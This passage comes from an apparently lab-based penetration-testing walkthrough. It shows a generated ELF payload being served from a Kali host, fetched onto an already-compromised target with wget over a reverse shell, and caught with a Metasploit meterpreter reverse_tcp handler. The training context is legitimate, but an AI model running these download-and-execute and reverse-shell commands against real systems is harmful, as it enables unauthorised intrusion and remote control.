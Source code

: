 The payload is now ready and saved to the file named`payload.bin`.

**Command:**

```
file payload.bin
```

It's an 64-bit ELF binary, as indicated by the above command!

**Step 15:** Downloading the payload binary on the compromised target machine.

We will start a Python-based file server on the Kali instance and serve the generated payload binary:

**Command:**

```
python3 -m http.server 80
```

![15](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/15.png)

Now we can download the payload binary on the compromised target machine using`wget`utility on the reverse shell session we had gained in **Step 12**.

**Commands:**

```
wget http://192.196.85.2/payload.bin
file payload.bin
chmod +x payload.bin
```

![15\_1](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/15\_1.png)

The above commands download the payload binary from the Kali instance, check the file type (just confirming if the file is properly downloaded or got corrupted) and make it executable.

**Note:** If you check the Python-based file server, you can notice the request to download the payload file here as well:

![15\_2](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/15\_2.png)

This can become handy in case of blind exploitation scenarios where we can execute commands but cannot see the output.

**Step 16:** Gaining a meterpreter session on the target machine.

So by now everything is ready on the target machine. Now all we need to do is set up a multi handler on the Kali instance and gain the meterpreter session by executing the payload on the target machine.

Use the following commands to setup a multi handler on the Kali instance:

**Commands:**

```
msfconsole -q
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 192.196.85.2
set LPORT 5555
run
```
